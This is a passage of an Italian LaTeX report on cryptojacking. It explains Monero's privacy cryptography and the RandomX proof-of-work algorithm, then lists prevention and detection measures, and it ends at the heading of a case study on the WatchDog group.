    
\includegraphics[width=0.79\textwidth]{./images/sommario.png}
    \caption{Sommario dei lavori di ricerca sulle Stealth Address e compatibilità BaseSAP}
    \label{fig:summary}
\end{figure}

\paragraph{Esempio pratico di One-time address}

\begin{enumerate}
    \item Alice genera una reale random $r \in \mathbf{Z}l $ e calcola il
    One-time address $$ K^{o} = \mathcal{H}_n(rK^v_B)G+K^s_B $$ e definisce
    $K^{o}$ come l'indirizzo di Bob, al quale specifica l'importo di 10 Monero
    ed il valore $rG$ e pubblica il tutto sulla blockchain.
    \item Bob, una volta ricevuti i dati, calcola $k^v_BrG = rK^v_B$ e calcola
    ${K'}^s = K^o - \mathcal{H}_n(rK^v_B)G$. Una volta che ha ha compreso se
    $K'^s = K^s$ comprendo che l'outout è per lui.
    \item una volta che Bob avrà confermato che l'output è per lui utilizzando
    la sua \textit{view key}, potrà firmare un messaggio con la sua
    \textit{spend key} e inviarlo alla rete per dimostrare di essere Bob e
    ricevere i Monero accordati.
\end{enumerate}

\paragraph{Subaddress}
Un'altra tecnica per garantire la privacy è quella di utilizzare gli
\textit{subaddress}. Ogni utente può generare dei subaddress partendo dal
proprio address. Questi subaddress possono essere utilizzati per ricevere
pagamenti senza dover condividire sempre lo stesso address, possiamo immaginare
l'address come una 'Banca' e i subaddress come i relativi 'Bancomat'. Oltre ad
essere utili per aumentare la privacy, l'utente che crea i propri subaddress può
utilizzarli per distinziare una transazione da un'altra.

Andiamo a vedere come funziona la creazione di un subaddress:

Un utente, Bob, crea un numero $ i $ di subaddress a partire dal proprio
address, i subaddress sono della stessa forma di un address standard, quindi una
coppia di chiavi pubbliche$ K^{v,i} $ e $ K^{s,i} $; una \text{view} ed una
\text{spend}.

$$ K^{s,i} = K^s + \mathcal{H}_n(k^v, i)G $$ 

$$ K^{v,i} = k^vK^{s,i} $$

L'altro utente, Alice, della transazione invierà una certa somma di Monero al
sotto indirizzo $ (K^{v,i}, K^{s,i}) $ nel modo spiegato nel capitolo
\textit{One-time address}.

Bob potrà, così, controllare i subaddress per vedere se ci sono transazioni per
lui: Se 
$$ K^{is}_B = K^o - \mathcal{H}_n(rK^{v,i}_B, \textit{valore della
transazione})G $$ e $$ K^{'s}_B = K^{s,i} $$ allora Bob sa di essere il
destinatario.

\subsubsection*{Amount Hiding}
Per quanto rigurda l'amount hiding, ci riferiamo a quest ultimo come il sistema
che ci permette di nascondere il saldo del nostro Wallet. In Monero, per nascondere i valori delle transizioni, si utilizzano i \textbf{Commitements}. 
In termini semplici, con \textbf{Commitements Scheme} si intende l'impegnarsi 
ad eseguire una transazione di un certo valore senza rivelare il valore stesso.

\paragraph{Esempio pratico di Commitements}

In un gioco del lancio della moneta, Alice può chiamare una faccia
("impegnadosi" così a voler ottenere quella una volta effettuato il lancio da Bob) ma va ad applicare una maschera (un hashing) sul "impegno preso" che annuncerà in pubblico senza che nessuno lo possa comprendere. A questo punto Bob lancia la moneta e mentre la moneta è in volo, Alice rivela l'impegno mascherato (annuncia quale moneta si aspetta di ricevere) e Bob rivela il risultato del lancio. Se Alice ha indovinato, Bob le darà la moneta.

\paragraph{Amount Commitements} Nel caso di Monero, più nel dettaglio, si utilizzano i \textbf{Pedersen Commitements}. Questi hanno la peculiarità di essere definiti da una funzione che rispetta le caratteristiche delle Applicazioni Lineari; quindi una Applicazione Lineare.

Definiamo un commitements di un valore $ b $ come:
$$ C(y, b) = yG + bH $$

Poichè il ricevente deve essere ingrado di conoscere quanto riceve nelle varie transazioni, banalmente per poi essere lui ad essere il mittente di altre nuove transazioni è necessario che i parametri $ y $ e $ b $ siano noti a Bob. 

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.99\textwidth]{./images/addKeys2.png}
    \caption{Codice derivante dal sorgente OS Monero che si occupa di costruire la funzione matematica riportata sopra}
    \label{fig:summary}
\end{figure}

Per effettuare questo tipo di comunicazione, Monero utilizza un sistema Diffie-Hellman per condividersi i segreti $ y $ e $ b $.

È chiaro che chiunque venga a conoscenza della chaive di visualizzazione $ k^v $ di Bob potrà vedere i valori delle transizioni e anche controllare che siano concordi con gli impegni (commitment) associati.

\subsubsection*{RingCT}

Una transazione Monero è composta anche da riferiemti ad altre transizioni. 

\paragraph{Ring Signature}
Le Ring Signature (in italiano: Firma ad Anello) sono un tipo di firma digitale la quale permette ad un utente di firmare un messaggio a nome di un gruppo di utenti senza che sia rivelata l'identità del utente che ha eseguito la firma.
La base di una firma ad anello è un gruppo di potenziali firmatari, ciascuno con la propria coppia di chiavi univoche (chiavi pubbliche e private). Il firmatario stesso forma un “anello” con le chiavi pubbliche degli altri membri del gruppo. È uno strumento che protegge la privacy del mittente di una transazione rendendo le stesse indistinguibili da altre transazioni.

\paragraph{Ring Confidential Transactions}
Abbiamo già definito le chiavi di spesa che possono essere utilizzate soltanto per una transazione.

Prima della implementazione delle RingCT Monero necessitava che le sue transazioni venissero suddivise in sotto transazioni di specifiche misure. 
Ad esempio: una transazione di $ 12.5 $ Monero veniva divisa in 3 anelli di taglio: $ 10 $, $ 2 $ e $ 0.5 $ Monero. Questo sistema garantiva la presenza di numero elevato di membri nella transazione principale (triplicandone il numero) ma non garantiva la privacy dell'utente poichè un osservatore poteva facilmente leggere i valori delle transazioni. Per risolvere questo problema, Monero ha implementato le Ring Confidential Transactions (RingCT) ad inizio 2017. Questa tecnologia ha ricevuto in poco tempo un grande apprezzamento da parte della comunità di Monero tanto che nel Settembre 2017 è stata implementata in modo predefinito.

Con RingCT, le nuove monete minate dalla community prima di entrare nel sistema venogno mascherate per poi essere inserite in una transazione RingCT. 
Una delle caratteristiche chiave di RingCT è che avendo gli ammontari delle gtransazioni nascosti, è possibile scegliersi gli utenti che parteciperanno al anello della transazione rendendola, così, ancora più sicura.

\paragraph{Esempio pratico di RingCT}

Alice deve $ 2.50 $ Monero a Bob ed ha un portafoglio di $ 12.56 $ Monero. Poichè gli output del proprio portafoglio non possono essere spesi più volte, Alice dovrà creare una transazione che includa un output di $ 2.50 $ Monero per Bob e un output di $ 10.06 $ Monero per se stessa. Avremo quindi una situazione nella quale per Alice esite un input che descrive il valore del suo portafoglio ed un output che corrisponde al valore alla transazione. Per dimostrare che la transazione non sia frutto di un operazione malevola e che Alice abbia effettivamente i $ 12.56 $ Monero si andaranno a confrontare i valori dell'input e dell'output.

$$ \sum \text{input} = \sum \text{output} $$

A causa delle proprietà crittografiche delle RingCT: 

$$ \text{RingCT} = xG + aH(G) $$ 

Alice dovrà andare a creare un Commitement per l'importo della transazione che in seguito i minatori andranno a verificare anche avendo a disposizione pochisse informazioni andando a verificare che l'ammontare del importo corrisponda al portafoglio di Alice.

\paragraph{Range Proof}

Questa tecnologia dimostra che il valore di un impegno è positivo e che non supera un certo limite. Questo è necessario per evitare che un utente possa creare un impegno negativo e creare monete dal nulla.
Lo scopo di una Range Proof è dimostrare che si tratta di una transizione sicura e che si può proseguire con la accettazione della stessa.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.79\textwidth]{./images/before.png}
    \caption{Senza i sistemi di privacy di Monero}
    \label{fig:summary}
\end{figure}

$$ \downarrow $$

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.79\textwidth]{./images/after.png}
    \caption{Con i sistemi di privacy di Monero}
    \label{fig:summary}
\end{figure}

È l'insieme di tutte queste tecnolgie a rendere Monero una delle criptovaluta che tutelano maggiormente la privacy degli utenti e di conseguenza vengono preferite dai cybercriminali per il cryptojacking.

\subsection{La blockchain di Monero}

\subsubsection*{RandomX}
RandomX è un algoritmo Proof-of-Work (PoW), questo algoritmo permette di
estrarre dalle CPU un calcolo computazionale che permetta di eguagliare la
velocità degli hardware specializzati. Abbiamo già anticipato nei capitoli
precedenti che Monero è una criptovaluta particolarmente pratica per essere
minata con CPU, questo è merito dell'algoritmo RandomX. Il core di questo
algoritmo è la simulazione di una CPU virtuale.

RandomX, compialto in \textit{C++11}, è eseguito su una Macchina Virtuale e può
funzionare in 2 modalità di esecuzione intercammbiabili:

\begin{itemize}
    \item \textbf{Fast mode}: è la modalità di esecuzione più veloce, ma
    richiede 2020MiB di memoria condivisa
    \item \textbf{Light mode}: è la modalità di esecuzione più leggera e lenta,
    ma richiede 256MiB di memoria condivisa
\end{itemize}

Per utilizzare RandomX è necessario andare a configuraralo, di seguito la
tabella dei parametri configurabili presa dal repository del algoritmo:

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.61\textwidth]{./images/randomx_parameters.png}
    \caption{Parametri configurabili}
    \label{fig:parameters}
\end{figure}

L'algoritmo necessita di due valori in input:

\begin{itemize}
    \item una chiave $k$ (una stringa lunga 0-60 bytes)
    \item un valore $H$ di lunghezza scelta che farà da parametro della funzione
    di hash
\end{itemize}

Il funzionamento di RandomX è definito dai seguenti passaggi:

\begin{enumerate}
    \item Inizializzare il dataset.\\
        La chiave $k$ permette di inizializzare il Dataset, cioè la struttura di
        memorizzazione di sola lettura che viene utilizzata durante la
        computazione. La grandezza di questa struttura è data dalla somma dei
        seguenti valori:

        \begin{verbatim}
            RANDOMX_DATASET_BASE_SIZE + RANDOMX_DATASET_EXTRA_SIZE
        \end{verbatim}

        e frazionata in frammetni di 64 byte che chiameremo \textit{items}.
        L'intero dataset è costruito partendo dalla chiave $k$ seguendo lo
        schema di seguito:

        \begin{figure}[ht]
            \centering
            
\includegraphics[width=0.99\textwidth]{./images/dataset_construction.png}
            \caption{Costruzione del dataset}
            \label{fig:data_construction}
        \end{figure}

        \textit{Argon2d} è una funzione derivata da Argon2\footnote{Argon2 è una
        funzione di hash per le password che occupa molta memoria}
        "tradeoff-resisistent".

        La chaive $k$ è utilizzata per inizializzare un
        BlakeGenerator\footnote{Pseudo random generator basato su Blake2b} che a
        sua volta permette di creare 8 \textit{SuperscalarHash}.
        \textit{SuperscalarHash} è una funzione di diffusione progettata per
        consumare quanta più energia possibile utilizzando soltanto le
        ALU\footnote{Arithemtic Logic Unit} della CPU. Questa funzione va a
        prendere in input 8 registri di dimensione 64 byte e restituisce il
        DataSet.

    \item calcolare il \textit{seed}, $S$=Hash512($H$)\footnote{Funzione di
        hashing derivata da Blake2b con output di grandezza 512 bit} di
        dimensione 64 byte.
    \item calcolare $gen1$= AesGenerator1R($S$), AesGenerator1R è una funzione
        generatrice di stringhe pseudo random. 

        Il generatore produce 4 chiavi:

        \begin{verbatim}
key0, key1, key2, key3 = Hash512("RandomX AesGenerator1R keys")
        \end{verbatim}
        
        che utilizza per creare i nuovi stati del generatore:

        \begin{verbatim}
state0 (16 B)    state1 (16 B)    state2 (16 B)    state3 (16 B)
    |                |                |                |
AES decrypt      AES encrypt      AES decrypt      AES encrypt
(key0)           (key1)           (key2)           (key3)
    |                |                |                |
    v                v                v                v
 state0'          state1'          state2'          state3'
        \end{verbatim}

    \item nello \textit{Scrathpad}\footnote{Area di memoria usata dalla Virtual
    Machine. È strutturata in 3 livelli: L3$\rightarrow$L2$\rightarrow$L1}
    vengono scritti \textbf{RANDOMX\_SCRATCHPAD\_L3} byte casuali sfruttando
    $gen1$ creato precedentemente.

    \item generiamo $gen4$ utilizzando lo stato finale di $gen1$:
    $gen4$=AesGenerator2R($gen1$.state)

    \item si assegna il valore 0 al registro \textit{fprc}\footnote{Determina la
    modaliotà di arrotondamento dei numeri in virgola mobile}

    \item si programma la Virtual Machine utilizzando \textbf{128 + 8 *
    RANDOMX\_PROGRAM\_SIZE} bytes provenienti da $gen4$ e la si esegue

    \item si calcola un nuovo seme $S$=Hash512($S$) e lo si assegna allo stato
    del generatore $gen4$: $gen4$.state=($S$)

    \item si ripetono i punti 7 ed 8 per \textbf{RANDOMX\_PROGRAM\_COUNT} volte
    
    \item si crea una impronta diitale dello Scrathpad:
    $A$=AesHash1R(Scrathpad)\footnote{Funzione di hash derivata da AES capace di
    produrre più di 10 bytes per clock}

    \item si va ad assegnare ai byte 192-255 del \textit{Register File} il
    valore A

    \item si calcola il risulato $ R $= Hash256(\textit{Register
    File})\footnote{Come Hash512 ma con output di 256 bit}

\end{enumerate}

\paragraph{Virtuale Machine}
La Virtual Machine di RandomX è strutturata nel seguente modo:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.99\textwidth]{./images/vm_randomX.png}
    \caption{RandomX Virtual Machine}
    \label{fig:vm_randomX}
\end{figure}

L'architettura della Virtual Machine è di tipo CISC\footnote{Complex Instruction
Set Computer} e tutti i dati sono caricati in little-endian. 

\newpage 

\section{Popolarità}

\subsection{Vantaggi Economici}
La popolarità è dovuta al potenziale guadagno, guadagno molto facile da crearsi
poiché per definizoione il cryptojacking punta a sfruttare risorse in possesso
di altri in modo gratuito. Così, anche considerando la volatilità delle cripto
valute, esempio principe BitCoin, i margini di guadagno sono abbastanza alti da
rendere il crimine un vero e proprio business. 

\subsection{Difficoltà di Rilevamento}
Il cryptojacking è concepito per operare in modo furtivo, rendendone ardua
l'individuazione. Gli script malevoli agiscono silenziosamente in background,
determinando un incremento nell'utilizzo della CPU e un degrado delle
prestazioni del dispositivo, spesso senza che l'utente se ne accorga. Tale
caratteristica conferisce al cryptojacking un carattere persistente e insidioso.

\subsection{Crescita del fenomeno}
Poichè i dispositivi connessi alla rete sono in continua diffusione e spesso le
case produttrici non adottano sistemi di sicurezza adeguati, gli hacker hanno
maggiore spazio di manovra per colpire un grande numero di dispositivi
simultaneamente. Sono molto popolari anche le app malevole per dispositivi
mobile che in apparenza sembrano innoque ma che nella realtà vanno a estrarre
criptovalute usando il processore del dispositivo. Un fenomeno facilmente
identificabile poichè porta ad un surriscaldamento anomalo del device.

\newpage

\section{Prevenire e individuare}

\subsection{Prevenire}
Per prevenire attacchi di cryptojacking, è fondamentale adottare una serie di
misure di sicurezza e buone pratiche. Ecco alcune strategie efficaci:

\subsubsection*{Protezioni anti-malware}
Sarebbe una buona pratica proteggere i propri dispositivi con anti-malware
capaci di rilevare processi di cryptomining in esecuzione in background, gestite
le estensioni browser scaricate dagli utenti e minimizzare il rischio dato dalla
esecuzione di script malevoli eseguiti sui browser. Nel caso si dovesse
proteggere un organizzione, sarebbe buona pratica andare a equipaggiare software
del tipo sopracitato sia nei device endpoint che nei server.

\subsubsection*{Applicare patch di sicurezza e proteggere i server}
Spesso gli hacker che puntano a creare un infrastruttura cryptojacking puntano a
server esposti pubblicamennte con bassi livelli di protezione su cui caricare
malware e da sfruttare per arrivare ad altri server. In questo caso, sarebbe
utile andare ad applicare patch di sicurezza e disattivare servizi inutilizzati.

\subsubsection*{Utilizzare software SCA}
I software SCA\footnote{Software Composition Analysis} permettono di andare ad
analizzare il software open-source e le sue dipendenze delle sue componenti.
Questi sistemi sono molto utili in fase di sviluppo per andare a rilevare
vulnerabilità e backdoor presenti nel codice integrato proveniente da fonti non
certificate. Questi software sono capaci di genereare degli \textit{SBOM}, cioè
dei dettagliati resoconti su tutte le dipendenze e sui componenti che compongono
l'applicazione che si sta analizzando.Così, si riesce a produrre software con la
sicurezza che non contenga script di mining.

\subsection{Individuare}
Per quanto riguarda la rilevazione, siccome gli attacchi di cryptojacking sono
sempre più sofisticati, è necessario adottare strategie di monitoraggio avanzate
per individuare e contrastare tali minacce. Ecco alcune tecniche utili:

\subsubsection*{Addetrare il personale help-desk a riconoscere i sintomi del cryptojacking}
Nel ambito della grande distribuzione di device e/o software il personale
help-desk è spesso il primo a ricevere segnalazioni di problemi relativi a
prestazioni lente o surriscaldamento dei dispositivi. In questi casi, è
importante che il personale sia in grado di riconoscere i sintomi del
cryptojacking e di agire di conseguenza, andando a segnalare il problema al
reparto IT. Il reparto IT, a sua volta, dovrà eseguire un'analisi approfondita
per individuare possibili brecce nei propri servizi o device endpoint e
rilascaire aggiornamenti di sicurezza.

\subsubsection*{Monitoraggio del traffico di rete}
Il monitoraggio del traffico di rete è un'ottima strategia per individuare
attività sospette. Gli attacchi di cryptojacking, infatti, comportano un aumento
del traffico di rete oltre che dell'utilizzo della CPU. Esistono vari strumenti
per monitorare il traffico di rete, come Wireshark, che consentono di
identificare rapidamente eventuali attività malevole. Sarebbe utile avere filti
nelle interfacce di rete per bloccare eventuali pacchetti non certificati. 

\subsubsection*{Sistemi di monitoraggio Cloud e sicurezza runtime dei container}
I fornitori di servizi cloud offrono strumenti di monitoraggio avanzati che
consentono di individuare attività sospette, un esempio è quello di Google Cloud
che ha modernizzato il \textit{Security Command Center: piattaforma di
monitoraggio della sicurezza progettata per aiutare le organizzazioni a gestire
e migliorare la loro postura di sicurezza nel cloud.}, andando ad integrare
Virtual Machine Threat Detection (VMTD). Questo sistema è in grado di proteggere
il cloud da attacchi informatici di vario genere e di individuare attività di
cryptojacking.

\subsubsection*{Attuare il Threat hunting}
Il threat hunting è eseguito da specialisti conosciuti come threat hunters, i
quali sono incaricati di individuare, isolare e neutralizzare minacce
informatiche avanzate. Questi professionisti si dedicano all'analisi di
comportamenti anomali e indicatori di compromissione (IoC) al fine di scoprire
attività dannose che non sono state rilevate dai tradizionali strumenti di
sicurezza.

A differenza di altre pratiche di sicurezza, come la risposta agli incidenti o i
penetration test, il threat hunting parte dal presupposto che una minaccia sia
già penetrata nel sistema. Gli esperti di threat hunting esaminano i dati per
individuare indirizi di compromissione e tentativi di attacco, impiegando
tecniche di analisi comportamentale e informazioni derivate dall'intelligence
sulle minacce.

\subsubsection*{Monitora i tuoi siti web}
I siti web sono spesso bersagli di attacchi di cryptojacking, poiché gli hacker
possono inserire script malevoli nei siti web, non per colpire i server, ma per
colpire i visitatori. Per monitorare i siti web, è possibile utilizzare
strumenti come Web Inspector, che consentono di individuare e rimuovere script
malevoli.

\newpage

\section{Casi reali}

\subsection{Il gruppo WatchDog attacca Docker Engine API endpoints and Redis servers}
